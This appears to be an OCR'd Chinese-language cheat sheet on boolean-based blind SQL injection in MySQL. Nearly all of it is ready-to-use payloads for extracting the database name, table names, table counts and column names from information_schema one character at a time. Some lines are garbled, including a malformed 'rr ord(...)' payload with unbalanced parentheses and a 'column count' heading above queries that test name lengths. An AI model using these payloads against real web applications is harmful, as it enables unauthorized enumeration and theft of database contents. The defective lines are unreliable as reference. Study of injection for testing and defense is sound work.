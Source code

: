 布尔型盲注是指注入页面中没有直接显示数据内容，但会显示输出的结果对还是错，查询的数据有还是没有。

- **猜解数据库长度**

  ```m'y
  ' or length(database()) > 8 --+    # 符合条件返回正确，反之返回错误
  ```

- **猜解数据库名**

  ```
  'or mid(database(),1,1)='z' --+
  'or ORD(mid(database(),1,1)) > 100 --+ :  # 因为需要验证的字符太多，所以可以转化为ascii码验证
  ```

- **猜解表的总数**

  ```
  'or (select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()) = 2  --+   # 判断表的总数
  ```

- **猜解各个表名的长度**

  ```
  'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1) = 5 --+
  'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,1) = 5 --+ （第二个表）
  ```

- **猜解第一个表名**

  ```
  'or mid((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1),1,1) = 'a'  --+
  或者
  'rr ord(mid(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1),1,1)) >100  --+
  ```

- **猜解表的字段的总数**

  ```
  'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 0,1) = 10 --+
  'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1) = 10 --+ （第二个字段）
  ```

- **猜解第一个字段名**

  ```
  'or mid((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = '表名' limit 0,1),1,1) = 'i' --+
  或者
  'or ORD(mid((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = '表名' limit 0,1),1,1)) > 100 --+
  或者直接猜解
  ' or (select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1) = 'username' --+
  ```
